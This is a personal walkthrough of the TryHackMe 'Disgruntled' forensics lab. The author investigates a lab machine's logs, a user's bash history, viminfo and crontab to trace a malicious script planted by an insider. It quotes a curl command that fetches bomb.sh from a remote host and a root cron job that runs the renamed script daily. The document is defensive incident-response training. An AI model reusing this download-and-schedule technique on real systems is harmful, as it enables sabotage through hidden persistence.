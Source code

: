 https://tryhackme.com/room/disgruntled

Task 1 is a joke. 
Task 2 is kind of a joke, required to download a linux cheat sheet. 


Machine ip is 10.10.159.183

Starting with the basic nmap command to see whats open Hopefully ftp or ssh to answer the first questions.
3.1 The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND? 
Hint Check the sudo execution history.

Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-06 09:37 EST
Nmap scan report for 10.10.159.183
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b7017664637ba72063015a2dbc94aa0b (RSA)
|   256 9b6ddd5dbe7da8bce41ab3f50263faaf (ECDSA)
|_  256 3f9173c4a1334f51891cbd7636a1032a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.70 seconds

Checking http first 
Greeted to a default apache page. 
Checked back with the first page and I see 


Username: root
Password:password 

Must be for ssh…. It is.

The authenticity of host '10.10.159.183 (10.10.159.183)' can't be established.
ED25519 key fingerprint is SHA256:RbLrnrOaR7wKbTMBDiVCw9r0m7ukNB/3Q5pzDHdxDXU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? y
Please type 'yes', 'no' or the fingerprint: yes
Warning: Permanently added '10.10.159.183' (ED25519) to the list of known hosts.
root@10.10.159.183's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 5.4.0-1029-aws x86_64)

 Ls returns a filder called snap holding amazon-ssm-agent? Weird
Found the /etc page that holds allot of items. 
Things that stand out, cron tabs because o scheduled taksa from the previous person. 
Going to try and gfigure out system logs with the log files potion of the document.
Cat /var/log/syslog


Shows allot of info and logs. I immediately see info on the amson ssm agent. 
Got stuck in vim authentication logs before looking up https://superuser.com/questions/1481437/show-sudo-history-in-history-command
Found In Debian I have /var/log/auth.log. Commands run with sudo are logged there. In CentOS it may be /var/log/secure, I'm not sure. (This is published as a comment, not an answer, because the mentioned file doesn't store what you type in an elevated shell after sudo -i; a good answer should cover this as well.)


Found /usr/bin/apt install dokuwiki that looks weird, is run with sudo and matches the command description.
/usr/bin/apt install dokuwiki


3.2 What was the present working directory (PWD) when the previous command was run?
/home/cybert on the same command line as the previous answer. 


4.1Which user was created after the package from the previous task was installed? 
Found this log after looking 28 06:26:53 ip-10-10-168-55 groupadd[15324]: group added to /etc/group: name=it-admin, GID=1002
it-admin


4.2A  user was then later given sudo priveleges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)
A user was then later given sudo priveleges. When was the sudoers file updated? (Format: Month Day HH:MM:SS) this looks weird
Hint The "visudo" is called when editing the /etc/sudoers file. Look for this command in the logs.
Dec 28 06:27:34

4.3 A script file was opened using the "vi" text editor. What is the name of this file?
May be: A script file was opened using the "vi" text editor. What is the name of this file?
bomb.sh

5.1 What is the command used that created the file bomb.sh?
Tried searching within the sys llogs for other instances of the bomb.sh file, but tno luck.
Hint The command was run by a different user account. Look at the ".bash_history" found in the user's home directory.
Hint helped, doesn’t help searching logs for root, switched the input to it-admin which pulled up. 


root@ip-10-10-159-183:~# vim /home/it-admin/.bash_history
w whoami
curl 10.10.158.38:8080/bomb.sh --output bomb.sh
ls
ls -la
cd ~/
curl 10.10.158.38:8080/bomb.sh --output bomb.sh
sudo vi bomb.sh
ls
rm bomb.sh
sudo nano /etc/crontab
exit
~             
Found curl 10.10.158.38:8080/bomb.sh --output bomb.sh

5.2 The file was renamed and moved to a different directory. What is the full path of this file now?
Found the command 
All the commands which you executed in vi are in the file .viminfo , which is in your home directory .

vim /home/user/.viminfo.

It has lot of vi details includes the command history .
The command is root@ip-10-10-159-183:~# vim /home/it-admin/.viminfo
Because again we are searching the changed history for it-admin for vi. 
Found :saveas /bin/os-update.sh

5.3 When was the file from the previous question last modified? (Format: Month Day HH:MM)
Most likely need to go back into the syslogs and search for update.sh.
No results.
Hint Go to the file location and use the "ls -al" command.
Ran and found -rw-r--r-- 1 root root 325 Dec 28  2022 /bin/os-update.sh
Dec 28 06:29

5.4 What is the name of the file that will get created when the file from the first question executes? 
Checking out the cron history and the location for the update.os.sh file.
Command is 
Opening  in vim and we see root@ip-10-10-159-183:/home/it-admin# vim /bin/os-update.sh
        echo -e "I TOLD YOU YOU'LL REGRET THIS!!! GOOD RIDDANCE!!! HAHAHAHA\n-mistermeist3r" > /goodbye.txt


6.1 At what time will the malicious file trigger? (Format: HH:MM AM/PM) 
Hint: Check out the crontab and convert the schedule expression using a site like https://crontab.guru/.
Need to find history for expression.
Found with the doc earlier, command is :
root@ip-10-10-159-183:/home/it-admin# vim /etc/crontab
results are # /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
0 8     * * *   root    /bin/os-update.sh
#
Need to convert cron with web page
Page says 8:00am, that ios the answer.


Task 7 is a joke
